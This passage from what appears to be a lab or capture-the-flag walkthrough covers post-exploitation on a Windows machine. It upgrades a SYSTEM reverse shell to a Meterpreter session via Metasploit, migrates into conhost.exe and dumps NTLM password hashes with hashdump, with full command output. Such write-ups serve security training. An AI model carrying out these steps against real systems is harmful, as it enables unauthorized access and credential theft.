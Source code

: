 ```text
-----


C:\Windows\system32>

```

Now that there was a shell connection back to the attacking box, that shell connection could be upgraded to a Meterpreter session.
This gave more functionality to the reverse shell.

```text
msf6 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST    10.2.105.89      no        IP of host that will receive the connection from the payload (Will try
                                       to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION  1                yes       The session to run this module on

msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.2.105.89:4433
[*] Post module execution completed
[*] Sending stage (200262 bytes) to 10.10.236.38
[*] Meterpreter session 2 opened (10.2.105.89:4433 -> 10.10.236.38:49182 ) at 2022-01-19 01:02:57 -0500
[*] Stopping exploit/multi/handler

```

The meterpreter sessions was then migrated into the `conhost.exe` service

```text
meterpreter > ps
2984  548   conhost.exe  x64   0        NT AUTHORITY\SYST  C:\Windows\system3
                                        EM                 2\conhost.exe
```

```text
meterpreter > migrate 2984
[*] Migrating from 2816 to 2984...
[*] Migration completed successfully.
```

Then the hashes can be dumped to be offline brute forced on the attacking machine.

```text
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```
